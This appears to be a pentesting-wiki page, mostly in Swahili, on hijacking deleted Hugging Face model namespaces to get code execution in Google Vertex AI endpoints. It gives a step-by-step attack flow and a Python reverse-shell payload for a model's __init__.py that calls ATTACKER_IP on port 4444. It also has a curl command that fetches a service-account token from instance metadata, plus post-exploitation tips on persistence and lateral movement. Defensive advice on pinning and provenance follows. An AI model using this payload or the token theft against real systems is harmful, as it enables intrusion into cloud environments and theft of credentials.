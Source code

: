 # GCP - Vertex AI Post-Exploitation kupitia Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Senario

- Vertex AI Model Garden inaruhusu kuendesha moja kwa moja modeli nyingi za Hugging Face (HF).
- HF model identifiers are Author/ModelName. Ikiwa mwandishi/taasisi kwenye HF anafutwa, jina lile la mwandishi linaweza kusajiliwa upya na mtu yeyote. Wavamizi wanaweza kisha kuunda repo lenye ModelName sawa katika path ya zamani.
- Pipelines, SDKs, au cloud catalogs zinazopakia kwa jina tu (bila pinning/integrity) zitavuta repo inayodhibitiwa na mshambuliaji. Wakati modeli inapoendeshwa, loader code kutoka repo hiyo inaweza kutekelezwa ndani ya container ya endpoint ya Vertex AI, ikitoa RCE kwa ruhusa za endpoint.

Two common takeover cases on HF:
- Ownership deletion: Old path 404 until someone re-registers the author and publishes the same ModelName.
- Ownership transfer: HF issues 307 redirects from old Author/ModelName to the new author. If the old author is later deleted and re-registered by an attacker, the redirect chain is broken and the attacker’s repo serves at the legacy path.

## Kutambua Namespaces Zinazoweza Kutumika Upya (HF)

- Old author deleted: the page for the author returns 404; model path may return 404 until takeover.
- Transferred models: the old model path issues 307 to the new owner while the old author exists. If the old author is later deleted and re-registered, the legacy path will resolve to the attacker’s repo.

Quick checks with curl:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## Mtiririko End-to-end Attack dhidi ya Vertex AI

1) Gundua reusable model namespaces ambazo Model Garden inaorodhesha kama deployable:
- Tafuta HF models katika Vertex AI Model Garden ambazo bado zinaonyesha kama “verified deployable”.
- Thibitisha kwenye HF ikiwa mwandishi wa awali ameondolewa au ikiwa modeli ilihamishwa na mwandishi wa zamani baadaye alifutwa.

2) Sajili tena mwandishi aliyefutwa kwenye HF na tengeneza tena ModelName ile ile.

3) Chapisha repo yenye madhumuni mabaya. Jumuisha code inayotekelezwa wakati modeli inapopakiwa. Mifano inayotekelezeka mara kwa mara wakati wa HF model load:
- Side effects in __init__.py of the repo
- Custom modeling_*.py or processing code referenced by config/auto_map
- Code paths that require trust_remote_code=True in Transformers pipelines

4) Deployment ya Vertex AI ya legacy Author/ModelName sasa huvuta repo ya mshambuliaji. The loader inatekelezwa ndani ya Vertex AI endpoint container.

5) Payload inaunda upatikanaji kutoka mazingira ya endpoint (RCE) kwa ruhusa za endpoint.

Mfano wa kipande cha payload kinachotekelezwa wakati wa import (kwa onyesho tu):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Vidokezo
- Vifungaji (loaders) katika mazingira halisi vinatofautiana. Integrations nyingi za Vertex AI HF zinakloni na ku-import modules za repo zilizotajwa katika config ya model (mf., auto_map), jambo ambalo linaweza kusababisha utekelezaji wa code. Matumizi mengine yanahitaji trust_remote_code=True.
- Endpoint kwa kawaida inaendesha ndani ya container maalum yenye wigo mdogo, lakini ni foothold ya awali halali kwa data access na lateral movement katika GCP.

## Post-Exploitation Tips (Vertex AI Endpoint)

Once code is running inside the endpoint container, consider:
- Kuhesabu environment variables na metadata kwa ajili ya credentials/tokens
- Kufikia attached storage au mounted model artifacts
- Kushirikiana na Google APIs kupitia service account identity (Document AI, Storage, Pub/Sub, etc.)
- Persistence katika model artifact ikiwa platform itare-pull repo

Enumerate instance metadata if accessible (container dependent):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Mwongozo wa Ulinzi kwa Watumiaji wa Vertex AI

- Weka modeli kwa commit katika HF loaders ili kuzuia kubadilishwa kimya kimya:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Nakili HF models zilizothibitishwa kwenye hifadhi/registry ya ndani inayotegemewa, kisha zi-deploy kutoka huko.
- Endelea kuchunguza codebases na configs kwa hard-coded Author/ModelName ambazo zimefutwa/kuhamishwa; sasisha hadi namespaces mpya au zi-pin kwa commit.
- Katika Model Garden, thibitisha asili (provenance) ya modeli na uwepo wa mwandishi kabla ya deployment.

## Mikakati ya Utambuzi (HTTP)

- Mwandishi aliyefutwa: ukurasa wa mwandishi 404; njia ya zamani ya modeli 404 mpaka kunyakuliwa.
- Model iliyohamishwa: njia ya zamani (legacy path) 307 kwa mwandishi mpya wakati mwandishi wa zamani bado yupo; ikiwa mwandishi wa zamani baadaye afutwe na kujiandikisha tena, njia ya zamani inaweza kuhudumia yaliyomo ya mshambuliaji.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Marejeo ya Msalaba

- Angalia mbinu pana na vidokezo vya mnyororo wa ugavi:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Marejeo

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
